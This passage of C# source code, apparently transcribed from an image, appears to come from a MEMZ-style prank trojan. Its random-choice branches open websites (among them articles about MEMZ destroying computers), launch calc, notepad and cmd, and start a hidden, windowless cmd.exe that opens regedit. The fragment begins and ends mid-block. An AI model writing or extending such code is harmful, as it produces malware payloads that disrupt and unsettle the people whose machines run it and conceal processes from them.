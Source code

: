                     {
                        Process.Start("http://answers.microsoft.com/en-us/protect/forum/protect_other-protect_scanning/memz-malwarevirus-trojan-completely-destroying/268bc1c2-39f4-42f8-90c2-597a673b6b45");
                    }
                }
                {
                    if (rnd_pgm == 31)
                    {
                        Process.Start("http://motherboard.vice.com/read/watch-this-malware-turn-a-computer-into-a-digital-hellscape");
                    }
                }
                {
                    if (rnd_pgm == 32)
                    {
                        Process.Start("http://play.clubpenguin.com");
                    }
                }
                {
                    if (rnd_pgm == 33)
                    {
                        Process.Start("http://pcoptimizerpro.com");
                    }
                }
                {
                    if (rnd_pgm == 34)
                    {
                        Process.Start("http://softonic.com");
                    }
                }
                {
                    if (rnd_pgm == 35)
                    {
                        Process.Start("calc");
                    }
                }
                {
                    if (rnd_pgm == 36)
                    {
                        Process.Start("notepad");
                    }
                }
                {
                    if (rnd_pgm == 37)
                    {
                        Process.Start("cmd");
                    }
                }
                {
                    if (rnd_pgm == 38)
                    {
                        Process.Start("write");
                    }
                }
                {
                    if (rnd_pgm == 39)
                    {
                        ProcessStartInfo p = new ProcessStartInfo();
                        p.FileName = "cmd.exe";
                        p.Arguments = "/k regedit";
                        p.CreateNoWindow = true;
                        p.WindowStyle = ProcessWindowStyle.Hidden;
                        p.ErrorDialog = false;
                        Process.Start(p);